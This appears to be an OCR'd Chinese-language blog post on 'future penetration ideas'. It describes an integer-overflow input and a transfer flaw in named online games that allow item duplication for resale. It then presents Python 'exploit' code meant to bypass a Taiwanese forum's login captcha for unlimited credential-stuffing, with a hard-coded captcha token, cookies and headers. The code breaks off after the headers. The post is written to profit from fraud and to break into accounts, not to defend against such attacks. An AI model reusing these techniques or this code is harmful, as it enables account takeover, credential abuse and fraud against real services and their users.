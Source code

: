 ```yaml
---
title: 未來滲透思路
date: 2025-06-01 20:01:12
tags:
---
```


現今的滲透
已經AI化了
各種腳本  打下網站  

大多數公司都使用cloudflare了 本身是有限制某些特殊參數傳入數據庫
除非工程師程式邏輯有問題

就像是如今全球服[精靈樂章](https://www.x-legend.com/online/grandfantasia-origin/zh-hant/) 的 API 整數溢出  在內存中 輸入(65536 / 2 -1) 就能觸發

[幻想神域](https://ff.x-legend.com.tw/index_in.php) 台服的轉帳系統異常一樣

都可以構成無限複製虛寶，販賣給玩家是有錢賺的。

某些網站的帳密數據洩漏例如巴哈姆特，可以間接造成大量網站的防禦功能失效。

台灣論壇巴哈姆特的防腳本Captcha存在漏洞，實際上不用點擊圖片就能無限制瘋狂登入測試帳密，對於駭客沒有起到防禦作用，頂多防治低端駭客。



以下是巴哈姆特的exploit

    import requests
    import re
    def login_gamer(i: str, b: str):
        url = "https://user.gamer.com.tw/ajax/do_login.php"
        boundary = "----WebKitFormBoundary43kaavhQRXxSIS8T"
        alternativeCaptcha="00fc6930b735e3cad682e0853a5e7de13b89d97fd3ec5ad167f2ba6b"

        # Cookies  boundary  alternativeCaptcha 也要更新
        cookies = {
            "_ga": "GA1.1.1957928680.1732967366",
            "ckM": "2531167198",
            "buap_modr": "p014",
            "buap_puoo": "p301",
            "ckGUILD_lastBrowse": "[[%22393%22%2C%22%E6%AD%B7%E5%8F%B2%E3%81%AE%E7%B4%B3%E5%A3%AB%E5%85%AC%E6%9C%83<%E3%82%9D%CF%89%E3%83%BB%22]%2C[%2216197%22%2C%22%E5%A0%B4%E5%A4%96%E4%BA%BA%E7%94%9F%22]]",
            "__cf_bm": "mKDJpSKveQTKgl_fc6yuPtBbSyXcrhujBogkMvHPNso-1734356145-1.0.1.1-Q4xXxyx1VD13BCae5ygrGeY76tskUbcg3HDEXHnwcFUld5j1UZ_lbQKNVUun8pDMU5CvDEDJrPkzKFVo9ivUpA",
        }
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
            "Accept": "*/*",
            "Accept-Encoding": "gzip, deflate, br, zstd",
            "Accept-Language": "zh-TW,zh;q=0.9,ja-JP;q=0.8,ja;q=0.7",
            "Cache-Control": "no-cache",
            "Origin": "https://user.gamer.com.tw",
            "Pragma": "no-cache",
            "Referer": "https://user.gamer.com.tw/login.php",
            "X-Requested-With": "XMLHttpRequest",
            "Content-Type": f"multipart/form-data; boundary={boundary}"
        }
